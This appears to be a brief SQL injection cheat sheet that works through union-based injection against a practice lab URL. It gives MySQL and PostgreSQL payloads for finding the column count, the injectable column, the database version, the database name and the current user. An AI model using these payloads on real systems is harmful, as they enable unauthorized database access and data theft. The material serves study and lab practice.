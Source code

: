 ```
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---

#### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

(using the same amount of columns you got on the previous step)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

(using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` 


#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` 


#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`
